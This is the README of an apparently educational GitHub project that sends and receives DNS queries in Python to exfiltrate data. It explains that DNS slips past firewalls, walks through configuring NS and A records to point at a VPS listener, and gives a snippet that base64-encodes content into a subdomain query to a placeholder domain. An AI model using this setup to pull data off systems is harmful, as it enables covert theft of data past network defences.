

# DNS Exfiltration
Some code to send and receive DNS requests in Python. 

### Why?
Mainly for education, to learn about DNS and specifically DNS exfiltration. For this use case, I was unsatisfied with existing tools such as nslookup because they will send multiple requests if no response is received, which is not ideal as we simply want to send a request without receiving anything back. This is designed to be simple—send just one request and don't worry about what happens after. 

### What?
DNS exfiltration is a method of getting data out from one system to another, usually from a compromised system to an attacker's system. DNS requests and responses are usually allowed through firewalls as it's pretty important if you want to use the internet. As a result, it is more likely to succeed without tripping any security systems compared to something else like FTP, which is probably blocked. 

## Legal Disclaimer 
This repository is for educational purposes only. Only send data from devices that you own or have explicit permission to send data from. It is the end user's responsibility to obey all applicable local, state and federal laws. The developers behind this project assume no liability and are not responsible for any misuse or damage caused by this program.
## Dependencies
- Python3
- [dnslib](https://pypi.org/project/dnslib/)
- A domain, e.g. from Cloudflare
- A virtual private server (VPS) to receive DNS requests

## Usage
1. In the settings of whichever website you bought your domain from, add a type A record to link a 'nameserver' to your VPS's IP, and a NS record to link a subdomain (any name will do) to the nameserver specified in the type A record:

In the example above, DNS requests to resolve `qqq.wergm.uk` and any subdomains will be sent to the IP of your VPS. 
2. Copy `recvdns.py` to your VPS and replace the regex with the subdomain url that was setup in step 2.
3. Start a listener on your VPS with `python3 recvdns.py`
4. On the device you want to send data from, base64 encode the content you wish to send.
5. Choose a DNS server. Any is fine as long as it doesn't use case randomization, which most don't. 
6. On the device you wish to send data from, copy senddns.py to it. In another Python file, replace `xxx.xxx.xxx` with the subdomain you set up in step 1, and use:
```python
import base64
import senddns
# ... 
content = 'stuff you want to send'
b64_content = base64.b64encode(content.encode('ascii')).decode('ascii')

senddns.sendQuery(f'{b64_content}.xxx.xxx.xxx', senddns.TYPE_A, 'DNS SERVER ADDR')
```
7. The decoded content should be printed to stdout by your VPS listener.